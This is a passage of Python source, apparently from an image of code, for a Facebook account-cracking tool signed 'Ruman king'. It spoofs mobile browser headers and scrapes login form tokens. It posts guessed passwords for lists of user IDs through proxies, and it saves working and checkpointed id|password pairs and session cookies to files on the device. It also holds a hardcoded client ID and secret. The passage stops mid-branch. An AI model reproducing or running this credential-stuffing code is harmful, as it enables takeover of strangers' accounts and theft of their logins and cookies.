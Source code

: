 			session.headers.update({"Host":"p.facebook.com", "content-type":"application/x-www-form-urlencoded","upgrade-insecure-requests": "1", "user-agent": ua, "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "x-requested-with": "com.mi.globalbrowser.mini", "sec-fetch-site":  "none", "sec-fetch-mode": "navigate", "sec-fetch-user": "?1", "sec-fetch-dest": "document", "accept-encoding": "gzip, deflate", "accept-language":  "en-US;q=0.8,en;q=0.7"})
			getlog = session.get(f'https://p.facebook.com/login/device-based/password/?uid={ids}&flow=login_no_pin&refsrc=deprecated&_rdr')
			idpass ={"lsd":re.search('name="lsd" value="(.*?)"', str(getlog.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(getlog.text)).group(1),"uid":ids,"next":"https://p.facebook.com/login/save-device/","flow":"login_no_pin","pass":pas,}
			head = {'Host': 'p.facebook.com', 'viewport-width': '980', 'sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="105", "Google Chrome";v="105"', 'sec-ch-ua-mobile': '?1', 'sec-ch-ua-platform':'"Android"', 'sec-ch-prefers-color-scheme': 'light', 'dnt': '1', 'upgrade-insecure-requests': '1', 'user-agent': ua, 'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9', 'sec-fetch-site': 'none', 'sec-fetch-mode': 'navigate', 'sec-fetch-user': '?1', 'sec-fetch-dest': 'document', 'accept-encoding': 'gzip, deflate, br', 'accept-language': 'en-US,en;q=0.9'}
			complete = session.post('https://p.facebook.com/login/device-based/validate-password/?shbl=0',data=idpass,allow_redirects=False,headers=head,proxies=proxs)
			AXI=session.cookies.get_dict().keys()
			if "c_user" in AXI:
				coki=session.cookies.get_dict()
				kuki = (";").join([ "%s=%s" % (key, value) for key, value in session.cookies.get_dict().items() ])
				
				print('\033[1;92m[Ruman king-ðŸ‘‘-OK] '+ids+' | '+pas+'\033[1;32m')
				open('/sdcard/Ruman king-ðŸ‘‘--OK.txt', 'a').write(ids+'|'+pas+'\n')
				oks.append(ids)
				break
			elif 'checkpoint' in AXI:
				if 'y' in pcp:
					
					print('\33[1;31m[Ruman king-ðŸ‘‘-CP] '+ids+' | '+pas+'\33[0;97m')
					open('/sdcard/Ruman king-ðŸ‘‘-CP.txt', 'a').write(ids+'|'+pas+'\n')
					cps.append(ids)
					break
				else:
					break
			else:
				continue
	except requests.exceptions.ConnectionError:
		time.sleep(20)
	loop+=1
client_id = '6628568379'
client_secrets = 'c1e620fa708a1d5696fb991c1bde5662'
version = str(random.randrange(8,15))
osv = str(random.randrange(1,9))
abv = ['A','B','C']
                
if '8' in version:
    ipsw = '12'+random.choice(abv)+str(random.randint(11,99))
elif '9' in version:
    ipsw = '13'+random.choice(abv)+str(random.randint(11,99))
elif '10' in version:
    ipsw = '14'+random.choice(abv)+str(random.randint(11,99))
elif '11' in version:
    ipsw = '15'+random.choice(abv)+str(random.randint(11,99))
elif '12' in version:
    ipsw = '16'+random.choice(abv)+str(random.randint(11,99))
elif '13' in version:
    ipsw = '17'+random.choice(abv)+str(random.randint(11,99))
elif '14' in version:
    ipsw = '18'+random.choice(abv)+str(random.randint(11,99))
elif '15' in version: